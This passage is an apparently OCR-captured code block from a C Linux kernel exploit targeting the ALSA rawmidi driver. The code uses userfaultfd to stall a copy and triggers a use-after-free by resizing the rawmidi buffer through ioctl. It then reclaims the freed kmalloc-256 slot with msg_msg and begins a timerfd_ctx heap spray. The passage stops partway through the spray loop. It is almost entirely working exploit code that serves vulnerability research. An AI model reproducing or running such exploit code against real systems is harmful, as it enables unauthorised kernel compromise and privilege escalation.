 ```c

    char *addr = page;
    memset(addr, 'A', PAGE_SIZE);

    puts("[+] Registering one page userfaultfd"); 

    /* Registering mapped area */
    register_userfaultfd((uint64_t *) ADDRESS_PAGE_FAULT1);

    puts("[+] Raising up the handler for userfaultfd");

    /* Handler for userfault */
    pthread_create(&thread[0], NULL, handler_userfaultfd, (void *) &uffd);

    /* Create one object by size 256 */
    srp.stream = SNDRV_RAWMIDI_STREAM_OUTPUT;
    srp.buffer_size = 240;
    srp.avail_min = 1;
    uint64_t err = ioctl(fd1, SNDRV_RAWMIDI_IOCTL_PARAMS, &srp);

    puts("[+] Created one object by size 256");

    if (err < 0)
    {
        perror("[-] ioctl");
        exit(0);	
    }

    struct args_trigger args;
    args.addr = addr + PAGE_SIZE - 0x18;
    args.size = 0x18 + 0x8;
    args.fd= fd1;

    /* Blocking before object created by size 256 in userfault */
    pthread_create(&thread[1], NULL, (void *) trigger_userfaultfd, &args);
    puts("[+] Triggering userfaultfd");

    /* Deleting before object created by size 256 generating an UAF */
    srp.buffer_size = 250;
    err = ioctl(fd1, SNDRV_RAWMIDI_IOCTL_PARAMS, &srp);

    puts("[+] Deleting before object created by size 256 generating UAF");

    if (err < 0)
    {
        perror("[-] ioctl");
        exit(0);	
    }

    /* send_msg 'A' */
    char buf[0xf8 - 0x30];
    memset(buf, 0x41, sizeof(buf));
    send_msg(qid[0], buf, 0xf8, 1);

    puts("[+] Allocate msg_msg in kmalloc-256");

    printf("[*] Waiting for userfaultd to finish ..\n");
    release_page_fault = true;

    /* spray timerfd_ctx in kmalloc-256 */
    for(int i = 256 / 2; i < 256; i++)
    {
        tfd[i] = timerfd_create(CLOCK_REALTIME, 0);
```